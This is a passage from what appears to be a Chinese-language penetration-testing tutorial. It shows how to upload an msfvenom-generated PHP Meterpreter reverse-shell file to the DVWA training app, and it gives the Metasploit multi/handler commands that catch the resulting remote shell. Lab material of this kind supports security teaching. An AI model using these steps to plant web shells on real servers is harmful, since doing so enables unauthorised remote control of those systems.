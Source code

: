 在该命令中，我们将有效载荷（`-p`定义为`php/meterpreter_reverse_tcp`，然后定义攻击机器的 IP 地址（`LHOST`和反向外壳将建立在的端口（`LPORT`。我们没有使用任何编码器；我们只需要原始的`php`文件（`-f raw`。文件名应为`msfv-shell.php`（`> msfv-shell.php`。

2.  一旦 PHP 文件生成，我们将把它上传到 DVWA。登录到 DVWA 并导航到左侧的上载部分。点击浏览。。。并导航到创建`msfv-shell.php`文件的位置。然后，选择它。文件上传后，请注意上传到的位置：

![](img/876555ff-ef13-4388-a779-5c047f645c44.png)

图 12:MSFVenom 恶意 PHP 文件上传

3.  在连接到上传的 PHP 页面的位置之前，我们需要在 Metasploit 中设置一个处理程序。为此，我们将使用`msfconsole`命令打开 Metasploit 框架。
4.  加载 Metasploit 框架后，我们将使用以下命令创建处理程序：

```
use exploit/multi/handler
set PAYLOAD php/meterpreter_reverse_tcp
set LHOST <LHOST value>
set LPORT <LPORT value>
exploit
```
